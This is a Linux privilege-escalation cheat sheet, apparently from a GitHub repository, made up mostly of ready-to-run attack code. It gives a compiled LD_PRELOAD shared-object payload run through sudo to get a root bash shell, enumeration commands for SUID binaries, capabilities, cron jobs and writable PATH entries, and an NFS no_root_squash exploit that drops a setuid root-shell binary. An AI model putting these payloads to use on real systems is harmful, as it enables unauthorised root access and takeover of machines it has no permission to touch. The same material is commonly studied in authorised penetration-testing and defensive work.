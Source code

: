 # Sudo Based Privilege Escalation  
The holy bible of Linux Privesc: [https://gtfobins.github.io/](https://gtfobins.github.io/)

## Abusing sudo with LD_PRELOAD 
You can abuse the LD_Preload sudo permission by writing and compiling the following C code. This will:
1.  Check for LD_PRELOAD (with the env_keep option)
2.  Write a simple C code compiled as a share object (.so extension) file
3.  Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file
```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```

Save and compile using:
```bash 
# Compile
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
# Run
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

# SUID based 
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

# Capabilities 
```bash
getcap -r / 2>/dev/null
```

# Cron Jobs
```bash
cat /etc/crontab
chmod 777 vulnfile.sh
```

# Path
```bash
# Find writable locations in path
find / -writable 2>/dev/null
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

# Add tmp to path
export PATH=/tmp:$PATH
```


# NSF
```bash

# For this example, assume the /tmp share has no_root_squash
# On then target machine
cat /etc/exports

# On the attackers machine, mount a share with the no_root_squash set.
showmount -e <ip>
mkdir /tmp/nsfpe
mount -o rw <ip>:/tmp /tmp/nsfpe

gcc nfs.c -o nfs -w
chmod +s nfs

# Back on the target machine
cd /tmp
./nfs
```

**nfs.c:**
```c
int main(){
	setgid(0);
	setuid(0);
	system("/bin/bash");
	return 0;
}
```